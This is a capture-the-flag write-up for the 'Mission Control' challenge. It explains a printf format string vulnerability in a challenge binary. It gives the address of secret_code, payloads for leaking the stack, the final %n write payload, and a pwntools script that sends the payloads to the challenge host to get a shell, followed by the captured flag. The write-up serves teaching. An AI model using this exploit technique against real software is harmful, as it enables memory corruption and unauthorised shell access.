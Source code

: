 ```yaml
---
description: Format string vulnerability
---
```


# Mission Control

## Description

There have been many hackers trying to compromise our mission control panel lately. We have added a few verification checks!

`nc 20.198.209.142 55021`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

{% file src="../../.gitbook/assets/mission_control (1)" %}
mission_control
{% endfile %}

{% file src="../../.gitbook/assets/mission_control.c" %}
mission_control.c
{% endfile %}

## Solution

### Source Code Analysis

To get the flag, users must overwrite the `secret_code` global variable.

```c
#define ADMIN_CODE 200

int secret_code = 0;

...

int main(int argc, char **argv)
{
	if (secret_code == ADMIN_CODE)
	{
		give_shell();
	}
	else
	{
		printf("Sorry, this area is currently disabled.\n");
	}

	return 0;
}
```

Now let's look at the rest of the code. User input is read into `buf`, and `buf` is concatenated to `to_print` before `printf(to_print)` is called.

```c
...

char buf[128];
memset(buf, 0, sizeof(buf));
fgets(buf, 128, stdin);

char to_print[256];
memset(to_print, 0, sizeof(to_print));

strcpy(to_print, "You said: ");
strcat(to_print, buf);

printf(to_print);
printf("Code: %d\n", secret_code);

...
```

This is a classic format string vulnerability. User input is directly passed into the `printf` format string, allowing us to write to arbitrary memory addresses.

An additional restriction is that the first 16 characters of the input must be "I am not a robot".

```c
if (strncmp(buf, "I am not a robot", 16) == 0)
{	
	printf("Glad to hear that!\n");
}
else
{
	printf("Stop hacking us!\n");
	return 0;
}
```

### Exploitation

Using `objdump`, we can find the memory address of `secret_code`.

```
$ objdump -t mission_control | grep secret_code
080dffbc g     O .bss    00000004 secret_code
```

We need to send 4 bytes in order to specify the address which we want to overwrite. Let this be `AAAA` for now. By sending `I am not a robotAAAA%x.%x.%x ...`, we can leak the stack values (every `%x` represents 4 bytes).

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 2.52.33 PM.png>)

Notice that `4141746f` appears at the 10th index and `78254141` at the 11th index. We need the full four bytes to be at the same index, so let's add two extra bytes before the `AAAA`.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 2.57.44 PM.png>)

We have added two extra bytes `BB` and used Direct Parameter Access (DPA) to specify we want the 11th index. The payload is `I am not a robotBBAAAA%11$p`. As we can see, the 11th index is now our `AAAA` string, i.e.`0x41414141`. Perfect!

The final payload is `I am not a robotBB\xbc\xff\x0d\x08%168x%11$n`.

* `\xbc\xff\x0d\x08` is the memory address of `secret_code` (0x080dffbc) in little-endian.
* `%168x%11$n` writes 168 + \[bytes already wrote] to the address on the 11th index.

The exploitation process is outlined by this script:

```python
from pwn import *

# Bruteforce the index of the buffer

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send("I am not a robotBBAAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\r\n")

print(conn.recv())

# Check the index of the buffer

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send(b"I am not a robotBBAAAA%11$p\r\n")
print(conn.recv())

# Overwrite the secret_code address

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send(b"I am not a robotBB\xbc\xff\x0d\x08%168x%11$n\r\n") # 080dffbc
print(conn.recv())
conn.interactive()
```

Once we overwrite the secret code, we are given a shell. 

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 3.11.43 PM.png>)

The flag is `STC{1_l0v3_f0rm4t_st1ngs_0ab7a4af7bb1343810ccde8244031f2f}`.
